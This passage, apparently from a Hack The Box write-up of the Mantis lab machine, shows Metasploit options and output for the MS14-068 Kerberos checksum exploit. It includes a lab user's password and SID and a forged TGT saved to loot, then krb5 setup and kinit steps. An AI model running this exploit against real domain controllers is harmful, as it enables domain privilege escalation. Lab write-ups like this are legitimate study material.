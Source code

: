    Name      Current Setting                                 Required  Description
   ----      ---------------                                 --------  -----------
   DOMAIN    HTB.LOCAL                                       yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  J@m3s_P@ssW0rd!                                 yes       The Domain User password
   RHOSTS    10.10.10.52                                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     88                                              yes       The target port
   Timeout   10                                              yes       The TCP timeout to establish Kerberos connection and read data
   USERNAME  james                                           yes       The Domain User
   USER_SID  S-1-5-21-4220043660-4019079961-2895681657-1103  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000


View the full module info with the info, or info -d command.
# run the exploit to create the ticket
msf6 auxiliary(admin/kerberos/ms14_068_kerberos_checksum) > run
[*] Running module against 10.10.10.52

[*] Validating options...
[*] Using domain HTB.LOCAL...
[*] 10.10.10.52:88 - Sending AS-REQ...
[*] 10.10.10.52:88 - Parsing AS-REP...
[*] 10.10.10.52:88 - Sending TGS-REQ...
[+] 10.10.10.52:88 - Valid TGS-Response, extracting credentials...
[*] 10.10.10.52:88 - TGT MIT Credential Cache ticket saved to /home/kali/.msf4/loot/20240324152252_default_10.10.10.52_mit.kerberos.cca_158721.bin
[*] Auxiliary module execution completed
</code></pre>

We have generated the TGT, so now we have to export it into a variable and use it:

```bash
# install required packages
$ sudo apt install krb5-user cifs-utils rdate
# point nameserver to the DNS of the DC
$ cat /etc/resolv.conf
nameserver= 10.10.10.52
# modify the kerberos configuration
$ cat /etc/krb5.conf.mantis
[libdefaults]
        default_realm = HTB.LOCAL
[realms]
        HTB.LOCAL = {
                kdc = mantis.htb.local:88
                admin_server = mantis.htb.local
                default_domain = HTB.LOCAL
        }
[domain_realm]
        .domain.internal = HTB.LOCAL
        domain.internal = HTB.LOCAL
# sync the time with the DC
$ sudo rdate -n mantis.htb.local
Sun Mar 24 09:44:49 GMT 2024
# create a ticket for james
$ kinit james
Password for james@HTB.LOCAL: 
# list tickets
$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: james@HTB.LOCAL

Valid starting       Expires              Service principal
```